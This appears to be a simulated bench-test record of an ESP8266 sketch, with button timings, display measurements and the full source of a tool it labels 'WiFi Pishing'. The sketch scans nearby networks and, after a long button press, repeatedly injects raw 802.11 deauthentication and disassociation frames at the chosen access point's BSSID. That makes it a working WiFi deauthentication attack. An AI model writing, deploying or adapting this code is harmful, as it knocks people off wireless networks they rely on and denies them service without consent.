
Bench run of a sketch on a simulated ESP8266 (NodeMCU). On the bench: 128×64 one-colour display. The test bench sets the inputs (shaded band); at power-on: GPIO 2 (button) HIGH. A WiFi scan finds three made-up networks; what the sketch prints to the serial monitor is not drawn.

Above: at 5.8 s.
5.9 s: GPIO 2 (button) pulled LOW for 0.15 s
At 7.0 s:

7.6 s: GPIO 2 (button) pulled LOW for 1 s
At 9.7 s:

10.1 s: GPIO 2 (button) pulled LOW for 3.2 s
At 12.8 s:

Timing chart, 0 to 14.3 s (numbered marks = the images above; inputs shaded):


The sketch:

hehe.ino
```cpp
#include <ESP8266WiFi.h>
#include <Wire.h>
#include "SSD1306.h"
#include <ezButton.h>
#ifdef ESP8266
extern "C" {
#include "user_interface.h"
}
#endif

SSD1306 display(0x3c, 4, 5);
bool deAuth = false;
const int SHORT_PRESS_TIME = 500;
const int LONG_PRESS_TIME  = 2000;
//_________________________________________________________________
uint8_t packet[26] = {
    0xC0, 0x00,
    0x00, 0x00,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00,
    0x01, 0x00
};


bool sendPacket(uint8_t* packet, uint16_t packetSize, uint8_t wifi_channel, uint16_t tries) {

    wifi_set_channel(wifi_channel);

    bool sent = false;

    for (int i = 0; i < tries && !sent; i++) sent = wifi_send_pkt_freedom(packet, packetSize, 0) == 0;

    return sent;
}

bool deauthDevice(uint8_t* mac, uint8_t wifi_channel) {

    bool success = false;

    memcpy(&packet[10], mac, 6);
    memcpy(&packet[16], mac, 6);

    if (sendPacket(packet, sizeof(packet), wifi_channel, 2)) {
        success = true;
    }

    // send disassociate frame
    packet[0] = 0xa0;

    if (sendPacket(packet, sizeof(packet), wifi_channel, 2)) {
        success = true;
    }

    return success;
}
//_____________________________________________________________________

ezButton button(2);

unsigned long pressedTime  = 0;
unsigned long releasedTime = 0;
boolean bt = false;
#define flipDisplay true

int n,i=0;
void setup() {
  display.init();
  if(flipDisplay) display.flipScreenVertically();
  //_____________________________________________
  display.clear();
  display.setFont(ArialMT_Plain_16);
  display.drawString(0, 0, "WiFi");
  display.drawString(0, 16, "Pishing");
  display.setFont(ArialMT_Plain_10);
  display.drawString(0, 50, "AshfaqueKhan");
  display.display();
  //_____________________________________________
  Serial.begin(115200);
  Serial.println("");
  //_____________________________________________
  WiFi.mode(WIFI_STA);
  WiFi.disconnect();
  delay(100);
  n = WiFi.scanNetworks();
  //_____________________________________________
  button.setDebounceTime(50);
  //_____________________________________________
  delay(2500);
}
void deauthloop()
{

}
void disp()
{
  button.loop();
  if(button.isPressed())
  {
    bt=true;
    pressedTime = millis();
  }
  if(button.isReleased()) {
    releasedTime = millis();
    bt=false;
    long pressDuration = releasedTime - pressedTime;

    if( pressDuration < SHORT_PRESS_TIME )
      Serial.println("A short press is detected");
      i++;
  }
  long pressDuration2 = millis() - pressedTime;
  if( pressDuration2 > LONG_PRESS_TIME && bt==true )
  {
    deAuth=true;
    bt=false;
  }
    i=i%n;
    display.clear();
    display.setFont(ArialMT_Plain_16);
    display.drawString(0, 0, WiFi.SSID(i));
    display.drawString(0, 16, "SignaL |");
    display.drawString(64, 16, String(WiFi.RSSI(i)));
    display.drawString(0, 32, "Channel|");
    display.drawString(64, 32, String(WiFi.channel(i)));
    display.setFont(ArialMT_Plain_10);
    display.drawString(0, 50, String(i+1));
    display.drawString(6, 50,"/");
    display.drawString(10, 50, String(n));
    display.display();
}
void loop()
{
  if(deAuth)
  {

    deauthDevice(WiFi.BSSID(i), WiFi.channel(i));
    display.clear();
    display.setFont(ArialMT_Plain_16);
    display.drawString(0, 0, WiFi.SSID(i));
    display.drawString(0, 16, "SignaL |");
    display.drawString(64, 16, String(WiFi.RSSI(i)));
    display.drawString(0, 32, "Channel|");
    display.drawString(64, 32, String(WiFi.channel(i)));
    display.setFont(ArialMT_Plain_10);
    display.drawString(0, 50, "Deauthenticating");
    display.drawString(100, 50,String(deauthDevice(WiFi.BSSID(i), WiFi.channel(i))));
    display.display();
    delay(1000);
  }
  else
  {
    disp();
  }
}
```

Measured:
- after the input at 5.9 s, the display: changes after 0.22 s (image 1)
- after the input at 7.6 s, the display: changes after 1.1 s (image 2)
- after the input at 10.1 s, the display: changes after 2.1 s (image 3)
